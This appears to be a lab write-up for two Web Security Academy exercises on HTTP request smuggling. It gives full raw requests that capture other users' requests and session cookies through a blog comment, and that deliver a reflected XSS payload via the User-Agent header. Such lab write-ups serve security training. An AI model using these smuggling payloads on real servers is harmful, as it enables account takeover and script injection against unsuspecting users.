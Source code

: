 ### LAB: Exploiting HTTP request smuggling to capture other users' requests
Send this request:

    POST / HTTP/1.1
    Host: 0aa3009003f7bb148056802200d60035.web-security-academy.net
    Cookie: session=blqqdgnPgBZvdOZN4FKLE6Vp9DQ4Pf3K
    Content-Length: 337
    Transfer-Encoding: chunked
    Content-Type: application/x-www-form-urlencoded

    0

    POST /post/comment HTTP/1.1
    Host: 0aa3009003f7bb148056802200d60035.web-security-academy.net
    Cookie: session=bEmHGZs0M8tiSA5g8KddtKrxf9rzGoRC
    Content-Length: 650
    Content-Type: application/x-www-form-urlencoded

    csrf=Cr7RjsnauMLDABIfuvd9CgFT1zBtyMHX&postId=8&name=123&email=haha%40gmail.com&website=http%3A%2F%2Faha.com&comment=

When the victim send any request to the web, it is appended to the comment and appeared on the blog page. Retrieve there cookie to gain access to the account.

### LAB: Exploiting HTTP request smuggling to deliver reflected XSS
Found the reflected XSS at:

    <input required type="hidden" name="userAgent" value="">

Send this request to confirm the XSS:

    GET /post?postId=4 HTTP/2
    Host: 0a9f00fd04e2f0ba808cc617006b0005.web-security-academy.net
    User-Agent: "><script>alert(1)</script>

Now send this request to perform the HTTP smuggling attack:

    POST / HTTP/1.1
    Host: 0a9f00fd04e2f0ba808cc617006b0005.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 213
    Transfer-Encoding: chunked

    0

    GET /post?postId=4 HTTP/1.1
    Host: 0a9f00fd04e2f0ba808cc617006b0005.web-security-academy.net
    User-Agent: "><script>alert(1)</script>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 10

    x=

Now if the victim send any request to the server, the server will process the GET response that contains the XSS.
